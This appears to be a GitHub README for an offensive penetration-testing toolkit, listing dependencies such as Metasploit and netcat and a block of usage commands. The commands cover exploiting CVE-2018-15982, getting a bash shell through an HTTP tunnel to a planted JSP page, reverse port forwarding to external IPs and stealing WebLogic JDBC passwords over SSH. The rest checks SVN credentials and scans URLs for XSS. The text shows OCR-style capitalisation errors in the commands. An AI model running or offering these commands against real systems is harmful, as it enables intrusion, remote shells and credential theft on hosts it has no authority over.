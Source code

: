 [![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![GitHub Followers](https://img.shields.io/github/followers/hktalent.svg?style=social&label=Follow)](https://github.com/hktalent/)
[![Top Langs](https://profile-counter.glitch.me/hktalent/count.svg)](https://51pwn.com)

# penetration tools


## dependencies
| Command | Description |
| --- | --- |
| kali linux | recommend system |
| node js | program runtime |
| javac, java | auto generate payload |
| metasploit | auto generate payload, and autoexploit|
| gcc | auto generate payload |
| tmux | auto background send payload, shell |
Bash | base64, tr, nc, auto generate payload |
| python | auto generate and send payload |

## New features
```
# ssh2
Py2 py/rforward.py -r 192.168.10.115:8083 -p 9999 -u root 12.19.16.11:27449
Curl http://162.219.126.11:9999/QIMS/login.jsp -v

# how use exploit CVE-2018-15982

Py2 tools/replaceBin.py -i /mysvn/CVE-2018-15982_PoC.swf -o /mysvn/test.swf -c 'notepad.exe'

# get bash shell,socks4 through http tunnel,auto use tmux and reGeorgSocksProxy.py
Tools/getBashShell_proxychains_http_tunnel.sh http://xxx:9002/uddi/.O01542895480635.jsp

# check Xss
Cat /mysvn/new_url_list.txt|xargs -I % node tools/checkXss.js -v -u %
# check svn paswd
Node tools/checkSvn.js http://12.68.10.7:8090/svn/ userName Pswd

# socks5
Node tools/mySocks5.js --user mser --password W_x*d -p 15533

#one key get weblogic passwd
Ssh -i YouKey userName@YouTargetIp -p targetPort < tools/oneKeyGetSshWeblogicJdbcPswd.sh >out.txt

# port Forward
Node tools/portForward.js -l 8080,3306 --rhost 172.17.0.2 -s 127.0.0.1 -p 8111

# ssh cmd
Node tools/ssh2Cmd.js --port 29156 --host 12.8.22.48 --username root --password '#$'

# xss test
Cat /mysvn/xss.txt|grep -Eo "http.*$"|sort -u|xargs -I % node checkUrl.js -u % --tags xss

# test all urls xss
```